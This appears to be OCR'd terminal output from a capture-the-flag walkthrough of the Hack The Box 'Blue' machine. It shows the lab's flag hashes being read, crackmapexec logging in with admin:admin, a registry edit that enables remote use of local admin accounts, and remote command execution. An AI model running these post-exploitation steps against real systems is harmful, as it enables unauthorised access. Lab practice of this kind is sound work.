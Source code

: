 
C:\Windows\system32>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
haris
The command completed successfully.


C:\Windows\system32>




C:\Users\haris\Desktop>type user.txt
type user.txt
4c546aea7dbee75cbd71de245c8deea9
C:\Users\haris\Desktop>



C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff548eb71e920ff6c08843ce9df4e717
C:\Users\Administrator\Desktop>




root@kali:~/HTB/BLUE/AutoBlue-MS17-010# crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin'
CME          10.10.10.40:445 HARIS-PC        [*] Windows 6.1 Build 7601 (name:HARIS-PC) (domain:HARIS-PC)
CME          10.10.10.40:445 HARIS-PC        [+] HARIS-PC\admin:admin 
[*] KTHXBYE!
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# 




C:\Windows\system32>cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
The operation completed successfully.

C:\Windows\system32>



root@kali:~/HTB/BLUE/AutoBlue-MS17-010# crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' -x 'whoami'
CME          10.10.10.40:445 HARIS-PC        [*] Windows 6.1 Build 7601 (name:HARIS-PC) (domain:HARIS-PC)
CME          10.10.10.40:445 HARIS-PC        [+] HARIS-PC\admin:admin (Pwn3d!)
CME          10.10.10.40:445 HARIS-PC        [+] Executed command 
CME          10.10.10.40:445 HARIS-PC        haris-pc\admin
[*] KTHXBYE!
root@kali:~/HTB/BLUE/AutoBlue-MS17-010#
